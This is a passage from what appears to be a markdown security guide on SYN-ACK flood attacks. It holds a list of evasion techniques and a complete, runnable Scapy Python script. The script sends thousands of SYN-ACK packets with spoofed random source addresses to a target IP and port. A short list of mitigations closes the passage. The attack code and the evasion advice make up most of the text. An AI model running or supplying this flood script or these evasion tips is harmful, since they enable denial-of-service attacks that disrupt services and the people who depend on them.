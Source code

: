 ## 🔄 Advanced Evasion
- **Realistic Sequences**: Use legitimate sequence ranges
- **TCP Options**: Add MSS, Window Scale, Timestamp options
- **Timing Variation**: Variable packet intervals
- **Mixed Attacks**: Combine with other TCP floods
- **Legitimate Mimicking**: Copy real server responses

## 🔬 Attack Analysis
### Scapy Script Example:
```python
from scapy.all import *
import random

def syn_ack_flood(target_ip, target_port, count=1000):
    for i in range(count):
        # Random source IP and port
        src_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        src_port = random.randint(1024, 65535)
        
        # Create SYN-ACK packet
        packet = IP(src=src_ip, dst=target_ip) / \
                 TCP(sport=src_port, dport=target_port, 
                     flags="SA", seq=random.randint(1000000, 9000000),
                     ack=random.randint(1000000, 9000000))
        
        send(packet, verbose=0)

# Usage
syn_ack_flood("192.168.1.100", 80, 5000)
```

## 🛠️ Mitigation Best Practices
- **Stateful Firewalls**: Implement proper connection tracking
- **Intrusion Detection**: Monitor for unusual TCP patterns
- **Rate Limiting**: Apply per-source limits
- **TCP Stack Hardening**: Optimize kernel parameters
- **Load Balancers**: Distribute and filter traffic
